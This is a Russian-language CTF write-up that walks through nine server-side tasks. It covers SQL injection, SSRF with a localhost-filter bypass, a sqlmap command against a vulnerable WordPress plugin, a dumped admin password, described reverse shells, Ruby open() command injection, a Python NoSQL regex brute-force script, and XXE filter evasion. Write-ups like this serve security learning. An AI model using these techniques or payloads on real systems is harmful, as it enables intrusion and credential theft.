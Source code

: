 ## SERVER SIDE WRITEUP

### 1. PASSWORD GENERATOR 1

В описании таска доступен исходный код сервиса, изучив его можно заметить, что
пользовательский ввод логина и пароля при регистрации никак не фильтруется, а также
видно структуру запроса к базе данных, поэтому можно внедрить sql инъекцию.

```
async register(user, pass, role) {
    return new Promise(async (resolve, reject) => {
        try {
            let query = `INSERT INTO users (role, username, password) VALUES ('${role}', '${user}', '${pass}')`;
```

![](assets/sql_passgen1.png)

И залогинившись под этими учетными данными получаем флаг

`deteact{4804ea3c290391280973c65db196f8d0}`

### 2. PASSWORD GENERATOR 2

Изучая сайт можно обнаружить, что запрос регистрации отправляется GET запросом на
/secureregister, и получить доступ можно только с локального хоста.

При запросе к /api/password передается поле endpoint к которому сервер делает GET запрос
по адресу /keygen. Таким образом можно выполнить атаку SSRF.

Фильтрацию localhost и 127.0.0.1
можно обойти с помощью адреса 127.2.2.2, а мусор отбросить дополнительным параметром.
Применив уязвимость mass assignment зарегистрируемся как админ.

![](assets/ssrf_passgen2.png)
Залогинившись, получаем флаг

`deteact{0d4db1d1ef5c63f7bc124979c11c3476}`

### 3. PRIVATE DATA

Проанализировав сайт с помощью wpscan заметим, что на сайте используется устаревший плагин
wp-statistics

```angular2html

[32m[+][0m wp-statistics
 | Location: http://79.143.25.24:8157/wp-content/plugins/wp-statistics/
 | Last Updated: 2023-03-09T12:23:00.000Z
 | [33m[!][0m The version is out of date, the latest version is 14.0.2
```

В интернете найдем, что данная версия плагина подвержена sql инъекции.

Так как инъекция blind time based, вручную перебирать очень долго,
поэтому используя с помощью sqlmap прочитаем базу данных сервера:

`sqlmap -u "http://79.143.25.24:8157/wp-admin/admin.php?ID=1&page=wps_pages_page&type=1" --techniqu=T --dbms="mysql" -p "ID" -b --tables -D wordpress`

И в таблице users_admin найдем учетные данные администратора

```angular2html
+----+-------+--------------------+
| ID | login | password           |
+----+-------+--------------------+
| 1  | admin | Jrkvf!mYcLtTZcjW8d |
+----+-------+--------------------+
```

Залогинившись под админом среди постов найдем первый флаг

`deteact{ce67481ba2558f06be3f4ce71fc67c4f}`

### 4. WordPress Code Execution

Используя учетные данные администратора изменим один из php файлов на сервере, загрузив в него Reverse Shell.
Поднимем прослушивание порта локально и обратимся к файлу, код выполнится на сервере, и установится соединение.
На сервере найдем флаг:

`deteact{4270a0ad90e239b421d5ec36bcae1c2f}`

### 5. Image Server

Передав в image_id строку, получим сообщение об ошибке, содержащее исполняемую команду.
В нем содержится дополнительный параметр __host_debug, который может быть передан в запросе, а также переменная oldserver:8000.

Отбросив лишнюю часть запроса, просканируем директории на oldserver и найдем файл openapi.json

![](assets/oldserver.png)

В файле найдем адрес /test_endpoint в который передается необязательный параметр fname
С помощью этого параметра можно прочитать любой файл на сервере.
Изучив /etc/passwd, найдем пользователя с именем flag, в его домашней директории в файле flag.txt будет лежать наш флаг)

`deteact{4a4db41eacd762e1b0bc2f303326df91}`

![](assets/server_flag.png)

### 6. Image Converter

Передав в поле ввода url "сломанную" ссылку, содержащую разные спецсимволы, получим ошибку обработки.
Из ошибки получим, что переданная url используется в функции open. А сам сервер использует ruby.

![](assets/open.png)

В интернете найдем, что используя функцию open можно выполнить RCE на сервере, передав после символа '|' необходимую команду.
Загрузим в команду reverse shell посредством ruby, и на сервере найдем флаг.

### 7. User API

Тестируя возможные уязвимости, обнаружим что сервер подвержен NoSQL injection.
Проверив стандартные учетные данные увидим, что имя пользователя - admin, а пароль имеет формат флага и начинается с deteact{
Напишем скрипт для подбора оставшейся части пароля

```angular2html
url = "http://45.131.97.54:3000/login"
headers = {"Host": "45.131.97.54:3000", "Content-Type": "application/json"}
possible_chars = list(string.ascii_letters)[:26] + list(string.digits)


def get_password():
    params = {"username": {"$eq":"admin"}, "password": {"$regex":"^deteact{" } }
    password = "^deteact{"
    while True:
        for c in possible_chars:
            params["password"]["$regex"] = password + c
            string = json.dumps(params)
            print(string, end=' ')
            pr = requests.post(url, data=string, headers=headers)
            print(pr.text)
            if "ess" in pr.text:
                password += c
                break
        else:
            break
    print(password)
```

Исполнив скрипт получим флаг от таска

![](assets/userapi.png)

`deteact{6b78aa0e40fefcabea1cf8076cac7204}`

### 8. AI Coder

Выполнив стандартную xml инъекцию обратимся к файлу /etc/passwd в котором и найдем флаг.

### 9. AI Coder V2

Заметим что переданный нами email выводится ответом на сервере, получается что поле подвержено xml инъекции
На сервере стоит фильтр, который не выполняет запрос, если в нем содержатся ключевые слова `xml` `file` `system` `localhost` `127.` `0.0.0.0`

Просканировав директории на сервере найдем адрес /secret, доступный только при запросе с локального хоста
Заменив SYSTEM на PUBLIC, выполним SSRF на собственный сервер, в котором перенаправим запрос на `http://localhost/secret`
И выполнив xml инъекцию, получим в поле email флаг.

![](assets/coder2.png)

